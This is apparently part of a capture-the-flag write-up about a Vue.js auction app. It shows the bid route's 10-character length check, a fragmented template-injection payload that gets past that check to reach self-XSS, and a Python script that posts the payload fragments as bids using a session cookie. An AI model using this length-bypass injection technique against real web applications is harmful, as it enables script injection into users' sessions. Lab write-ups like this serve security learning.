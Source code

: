 We have CSTI in vue js, but checking the bids route

```javascript
router.post('/auctions/:id/bids', isAuthenticated, async (req, res) => {
  try {
    const auctionId = req.params.id;
    const userId = req.session.userId;
    const { bid } = req.body;

    if (bid.length > 10) {
      return res.status(400).json({ success: false, message: 'Too long' });
    }
    await placeBid(auctionId, userId, bid);
    return res.json({ success: true });
  } catch (err) {
    console.error('Error placing bid:', err);
    const status = err.message.includes('Invalid') ? 400
                  : (err.message.includes('not found') || err.message.includes('closed')) ? 404
                  : 500;
    return res.status(status).json({ success: false, message: err.message || 'Internal server error.' });
  }
});
```

It clearly checks if the length of `bid` is bigger than 10 characters.

It is still possible to get [self xss using this research](https://matanber.com/blog/4-char-csti).

We can create the following payload

```
...SNIP...
${`[z]}
${a+=`}
${ohhh}
${`[z]}
${a+=`}
${nhhh}
${`[z]}
${a+=`}
${shhh}
${`[z]}
${a+=`}
...SNIP...
```

And we can make a quick script which will make bids for our account using the payload

```python
import requests

url = "http://94.237.62.255:32025/api/auctions/1/bids"
headers = {
    "Content-Type": "application/json",
    "Accept": "application/json, text/plain, */*",
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36",
    "Cookie": "connect.sid=[SESSION COOKIE]"
}

with open("words.txt") as f:
    for line in f:
        bid_value = line.strip()
        if not bid_value:
            continue
        data = {"bid": bid_value}
        r = requests.post(url, json=data, headers=headers)
```